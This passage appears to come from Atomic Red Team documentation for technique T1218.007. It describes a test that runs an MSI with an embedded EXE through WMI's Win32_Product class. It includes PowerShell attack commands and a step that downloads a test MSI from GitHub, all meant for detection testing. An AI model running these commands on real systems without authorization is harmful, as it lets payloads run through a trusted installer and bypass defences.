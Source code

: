 #### Attack Commands: Run with `powershell`!

```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```

#### Dependencies: Run with `powershell`!

##### Description: The MSI file must exist on disk at specified location (#{msi_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_DLL.msi" -OutFile "#{msi_payload}"
```

<br/>
<br/>

## Atomic Test #8 - WMI Win32_Product Class - Execute Local MSI file with an embedded EXE

Executes an MSI containing an embedded EXE using the WMI Win32_Product class

**Supported Platforms:** Windows

**auto_generated_guid:** 55080eb0-49ae-4f55-a440-4167b7974f79

#### Inputs:

| Name        | Description                                                                                                                     | Type   | Default Value                                                   |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------- | ------ | --------------------------------------------------------------- |
| msi_payload | MSI file to execute                                                                                                             | path   | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_EXE.msi |
| action      | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install                                                         |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```

#### Dependencies: Run with `powershell`!

##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
